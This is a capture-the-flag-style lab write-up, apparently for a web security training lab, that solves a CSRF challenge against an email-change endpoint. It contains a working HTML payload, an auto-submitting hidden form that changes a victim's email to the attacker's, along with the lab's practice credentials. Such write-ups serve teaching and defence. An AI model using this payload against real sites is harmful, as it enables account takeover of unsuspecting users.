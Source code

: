 # CSRF vulnerability with no defenses
# Objective
This lab's email change functionality is vulnerable to CSRF.\
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis 
There is no `csrf` token (or any other `crsf` security measure) in `/my-account/change-email`.
|![](Images/image.png)|
|:--:| 
| *Test of change email functionality* |

## Exploitation
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

For some reason attacker and user wiener have to have different emails addresses.


```html
<form method="POST" action="https://0af400970429ed0e83db323e00e500da.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```

|![](Images/image-1.png)|
|:--:| 
| *Exploit server configuration* |


